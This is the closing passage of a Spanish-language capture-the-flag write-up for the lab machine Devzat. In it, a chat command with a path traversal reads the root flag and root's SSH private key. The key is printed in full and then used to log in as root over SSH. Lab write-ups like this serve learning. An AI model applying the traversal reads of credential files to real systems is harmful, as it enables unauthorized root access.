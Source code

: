 ```console
catherine: /file ../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] e1b8707c938e4fb49bce2a4023bc8b53
                                                                                                                                                                                10 minutes in
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
catherine: Connection to devzat.htb closed.
```

Con esta información podemos crear un archivo **`devzatkey`** al cual le damos permisos con **`chmod 600 devzatkey`** y ya podemos conectarnos por SSH.

```console
p3ntest1ng:~$ ssh -i devzatkey root@devzat.htb
root@devzat:~# ls
devzat  go  root.txt
root@devzat:~# cat root.txt
e1b8707c938e4fb49bce2a4023bc8b53
root@devzat:~# 
```

### ¡Gracias por leer hasta el final!

Esta máquina me ha gustado mucho porque se tocan varias técnicas y me ha servido para aprender algo nuevo, ya que no conocía InfluxDB.

#### Nos vemos en un próximo. ¡Feliz hacking! ☠